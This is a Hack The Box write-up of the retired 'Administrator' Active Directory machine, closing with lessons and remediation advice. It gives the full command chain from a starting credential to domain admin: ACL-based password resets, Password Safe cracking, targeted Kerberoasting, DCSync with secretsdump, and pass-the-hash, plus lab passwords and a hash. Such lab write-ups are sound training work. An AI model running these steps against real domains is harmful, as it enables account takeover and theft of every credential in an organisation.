# Administrator — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | Active Directory ACL abuse, Password Safe cracking, targeted Kerberoasting, DCSync |

---

## TL;DR

Administrator is a full domain-compromise chain built entirely on ACL
abuse, starting from a single low-privileged credential given at the
start. `GenericAll` gets me from Olivia to Michael, `ForceChangePassword`
gets me from Michael to Benjamin, a cracked Password Safe database gets me
to Emily, `GenericWrite` gets me a targeted Kerberoast on Ethan, and
Ethan's `DCSync` rights get me the Administrator hash.

---

## Recon

```bash
nmap -sC -sV -p- 10.129.10.95
```



Results: FTP (21), DNS (53), Kerberos (88), RPC (135), LDAP (389, domain
`administrator.htb`) — a domain controller. The box hands over a starting
credential up front: `Olivia:ichliebedich`.

---

## BloodHound

Collected the domain with the given credentials:

```bash
bloodhound-python -d administrator.htb -c All -u Olivia -p 'ichliebedich' -ns 10.129.10.95
```



Checked what Olivia's account could do and found `GenericAll` over
Michael:



`GenericAll` over a user object is complete control over it — enough to
reset the password outright. Clicking the edge in BloodHound spells out
exactly how to abuse it:


---

## Foothold

Changed Michael's password to get access to his account:

```bash
net rpc password "michael" "Password123" -U "Administrator"/"Olivia"%"ichliebedich" -S "10.129.10.95"
```


Checked FTP access with the new account, but got denied:



WinRM (5985) was open though, so tried Evil-WinRM with the recovered
account instead:

```bash
evil-winrm -i 10.129.10.95 -u michael -p 'Password123'
```



Didn't find anything interesting locally. Went back to BloodHound to check
what Michael can do.

---

## Lateral Movement

### WinRM → Benjamin

Similar to Olivia, Michael has an outbound object control to force-change
Benjamin's password:



Used `bloodyAD` this time to reset it:

```bash
bloodyAD -u "michael" -p "Password123" -d "Administrator.htb" --host "10.129.10.95" set password "Benjamin" "password123"
```



Saw that Benjamin is a member of the **Share Moderators** group, meaning
he could have access to the FTP service:



### FTP

With the Benjamin account, got access to FTP and downloaded
`Backup.psafe3`:



### File cracking

`backup.psafe3` is a Password Safe database used by the Password Safe
application to store passwords securely using encryption. Looked up the
right hashcat mode for it:



```bash
hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
```



Installed `pwsafe` to open the database with the cracked password,
`tekieromucho`:



Copied out the stored users and their passwords:



```
alexander UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily      UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma       WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Used `crackmapexec` to check which of these passwords are valid against
the domain:

```bash
crackmapexec smb 10.129.10.95 -u users.txt -p password.txt
```



Only Emily's credentials came back valid. Logged in with `evil-winrm` and
retrieved the user flag from her desktop.

---

## Privilege Escalation

### Targeted Kerberoast

BloodHound shows Emily has `GenericWrite` over Ethan:



`GenericWrite` is enough to give Ethan an SPN, request a ticket for that
fake service, and get back a hash encrypted with Ethan's password — a
targeted Kerberoast:

```bash
python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```



Copied the hash and cracked it with hashcat:

```bash
hashcat ethan.txt /usr/share/wordlists/rockyou.txt
```





Ethan's password: `limpbizkit`.

### Shell as Administrator

In BloodHound, Ethan has `GetChangesAll` privileges over the domain —
DCSync rights:



Used `secretsdump.py` to perform the DCSync attack and pull every password
hash in the domain:

```bash
impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@'10.129.10.211'
```



Used the local Administrator hash to get a shell with Evil-WinRM:

```bash
evil-winrm -i 10.129.10.211 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

Read the final flag from `C:\Users\Administrator\Desktop\root.txt`.

---

## Lessons Learned

- A single starting credential in AD can cascade into full domain
  compromise purely through ACL abuse — no exploit needed anywhere in this
  chain.
- BloodHound after every new credential, not just the first — each hop
  (Olivia, Michael, Emily, Ethan) had its own distinct outbound edge.
- Password managers found on a share are worth cracking even when they
  don't belong to the current user — the accounts stored inside were real,
  live domain credentials.
- DCSync doesn't require Domain Admin membership, only the specific
  replication rights.

---

## Remediation

- Audit and minimize ACL grants (`GenericAll`, `GenericWrite`,
  `ForceChangePassword`) on user objects.
- Never store a password manager database on a share reachable by
  low-privileged accounts.
- Restrict `GetChangesAll`/`GetChanges` (DCSync) rights to actual domain
  controller computer accounts.
- Rotate `krbtgt` (twice) and force a domain-wide credential reset after
  any suspected DCSync exposure.

---

## Tools used

- `nmap`
- `bloodhound-python`, BloodHound GUI
- `net rpc`, `bloodyAD`
- `evil-winrm`
- `hashcat`, `pwsafe`
- `crackmapexec`
- `targetedKerberoast.py`
- Impacket (`secretsdump.py`)

---

**Machine:** [Hack The Box — Administrator](https://www.hackthebox.com/machines/administrator)
